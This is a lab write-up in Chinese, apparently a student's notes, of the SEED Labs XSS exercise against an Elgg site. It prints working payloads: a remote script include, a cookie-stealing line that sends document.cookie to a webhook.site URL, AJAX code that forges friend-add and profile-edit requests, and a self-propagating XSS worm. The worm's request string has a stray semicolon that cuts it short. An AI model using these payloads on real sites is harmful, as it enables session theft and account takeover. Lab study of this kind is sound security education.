









# XSS 实验
`注①：我在本机启动SEED Lab中的服务，在公网环境完成本次lab，使用的工具链稍有不同，但完成的内容是一致的`

## 3.1 Preparation: Getting Familiar with the "HTTP Header Live" tool

这一步可以通过浏览器自带的开发者工具完成，也可以通过抓包完成，这里不再赘述。 

## 3.2 Task 1: Posting a Malicious Message to Display an Alert Window

XSS的payload是
```html
<script type="text/javascript" src="http://[YOUR VPS LINK]/315/xss.js" \>
```

VPS上的文件是

```js
alert("XSS");
```

可以完成弹窗的POC

  

## 3.3 Task 2: Posting a Malicious Message to Display Cookies
将VPS的文件更新为

```js
alert(document.cookie);
```

可以完成获取cookie的POC
  

### 3.4 Task 3: Stealing Cookies from the Victim’s Machine

我使用 http://webhook.site/ 作为接受反射cookie的探针，将VPS的文件更新为

```js
new Image().src="http://webhook.site/c42165ff-f417-4e63-bf7b-cc28e3e6c936?cookie="+document.cookie
```

可以看到webhook接收到了cookie，出于隐私考虑去掉了IP和时间戳。

  


### 3.5 Task 4: Becoming the Victim’s Friend

这一步可以看js也可以看请求速通，以下是GET的内容

  

自己的用户ID可以注册小号看，也可以在设置页里的BOOKMARK看link指向的id。

还可以直接从 `elgg.session.user.guid` 拿
这里sammy的是47。  


```js
window.onload = function () {
    var sendurl="http://www.xsslabelgg.com/action/friends/add?friend=47&__elgg_ts="+elgg.security.token.__elgg_ts+"&__elgg_token="+elgg.security.token.__elgg_token
    var Ajax=new XMLHttpRequest();
    Ajax.open("GET",sendurl,true);
    Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
    Ajax.send();
}

```

可以看到Alice每次访问都会触发add请求，这里的friend=47是sammy的id。

  

Questions. 
- Question 1: Explain the purpose of Lines ➀ and ➁, why are they are needed?
   + 两处是时间戳和自己的cookie 
      * 自己的cookie用于验证身份
      * 时间戳干的用处取决于设计者，总之尽可能仿照正常的请求即可
- Question 2: If the Elgg application only provide the Editor mode for the "About Me" field, i.e., you cannot switch to the Text mode, can you still launch a successful attack?
   + 答：是可以的，Editor只是前端修改输入的内容，可以篡改请求或者直接发送请求修改profile，以下是示例，可以看到description是实际发送的包，篡改或者手动构造即可：
   ```
   __elgg_token=eCbWFZi1QPr3A2UJIlbCwg&__elgg_ts=1670168014&name=Samy
   &description=
   %3Cscript+src%3D%22http%3A%2F%2F[YOUR VPS]%2F315%2Fxss.js%22+type%3D%22text%2Fjavascript%22%3E%3C%2Fscript%3E
   &accesslevel%5Bdescription%5D=2&briefdescription=&accesslevel%5Bbriefdescription%5D=2&location=&accesslevel%5Blocation%5D=2&interests=&accesslevel%5Binterests%5D=2&skills=&accesslevel%5Bskills%5D=2&contactemail=&accesslevel%5Bcontactemail%5D=2&phone=&accesslevel%5Bphone%5D=2&mobile=&accesslevel%5Bmobile%5D=2&website=&accesslevel%5Bwebsite%5D=2&twitter=&accesslevel%5Btwitter%5D=2&guid=47
   ```


##  Task 5: Modifying the Victim’s Profile


根据上文Question2的回答构造修改profile的包：

```js
window.onload = function () {
    var sendurl="http://www.xsslabelgg.com/action/profile/edit";
    var content="__elgg_token="+elgg.security.token.__elgg_token+"&__elgg_ts="+elgg.security.token.__elgg_ts+"&guid="+elgg.session.user.guid+"&name="+elgg.session.user.name+"&description=%3Cscript+src%3D%22http%3A%2F%2F[YOUR VPS]%2F315%2Fxss.js%22+type%3D%22text%2Fjavascript%22%3E%3C%2Fscript%3E&accesslevel%5Bdescription%5D=2&briefdescription=&accesslevel%5Bbriefdescription%5D=2&location=&accesslevel%5Blocation%5D=2&interests=&accesslevel%5Binterests%5D=2&skills=&accesslevel%5Bskills%5D=2&contactemail=&accesslevel%5Bcontactemail%5D=2&phone=&accesslevel%5Bphone%5D=2&mobile=&accesslevel%5Bmobile%5D=2&website=&accesslevel%5Bwebsite%5D=2&twitter=&accesslevel%5Btwitter%5D=2";
    if(elgg.session.user.guid != 47){
        var Ajax = new XMLHttpRequest();
        Ajax.open("POST",sendurl,true);
        Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
        Ajax.send(content);
    }
}

```

可以看到访问samy主页就会更新自己的profile，且进入edit会发现内容被正确更新成了恶意地址。

  


- Question 3: Why do we need Line ➀? Remove this line, and repeat your attack. Report and explain your observation
   + 用处是让XSS不要改攻击者的profile...
   + 去掉之后自己访问主页或者预览就会被改。  


## Task 6: Writing a Self-Propagating XSS Worm

```html
<script id="worm" type="text/javascript">
var headerTag = "<script id=\"worm\" type=\"text/javascript\">"; 
var jsCode = document.getElementById("worm").innerHTML; 
var tailTag = "</" + "script>";
var wormCode = encodeURIComponent(headerTag + jsCode + tailTag); 

window.onload = function () {
    var sendurl="http://www.xsslabelgg.com/action/profile/edit";
    var content="__elgg_token="+elgg.security.token.__elgg_token+"&__elgg_ts="+elgg.security.token.__elgg_ts+"&guid="+elgg.session.user.guid+"&name="+elgg.session.user.name+"&description="+encodeURI(headerTag+jsCode+tailTag).split("&").join("%26");+"&accesslevel%5Bdescription%5D=2&briefdescription=&accesslevel%5Bbriefdescription%5D=2&location=&accesslevel%5Blocation%5D=2&interests=&accesslevel%5Binterests%5D=2&skills=&accesslevel%5Bskills%5D=2&contactemail=&accesslevel%5Bcontactemail%5D=2&phone=&accesslevel%5Bphone%5D=2&mobile=&accesslevel%5Bmobile%5D=2&website=&accesslevel%5Bwebsite%5D=2&twitter=&accesslevel%5Btwitter%5D=2";
    if(elgg.session.user.guid != 47){
        var Ajax = new XMLHttpRequest();
        Ajax.open("POST",sendurl,true);
        Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
        Ajax.send(content);
    }
}
</script>
```

截图是访问samy profile之后的alice edit界面，可见通过DOM完美修改了profile。

  


## Task 7: Countermeasures


只开插件

  


全开

  


效果看起来是一样的，都可以正常转义内容并去掉script标签。


